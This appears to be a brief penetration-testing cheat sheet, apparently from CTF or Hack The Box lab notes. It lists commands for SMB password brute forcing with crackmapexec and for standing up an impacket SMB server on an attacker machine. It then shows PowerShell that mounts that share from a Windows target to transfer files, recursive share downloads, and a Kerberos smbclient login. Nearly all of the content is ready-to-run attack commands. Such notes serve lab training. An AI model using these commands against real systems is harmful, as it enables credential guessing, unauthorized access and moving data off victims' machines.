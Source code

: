 Brute force users 

```
crackmapexec smb 10.10.10.161 -u users.lst -p pass.txt
```

Transfer file using smb share

```kali
impacket-smbserver test $(pwd) -smb2support -user test -password test
```

```windows
$pass = convertto-securestring 'test' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('test', $pass)
New-PSDrive -Name test  -PSProvider Filesystem -Credential $cred -Root \\10.10.16.2\test
cd test:
```


download recursively

```
recurse ON
prompt OFF
mget *
```


For kerberos use

```
impacket-smbclient -k scrm.local/ksimpson@dc1.scrm.local
```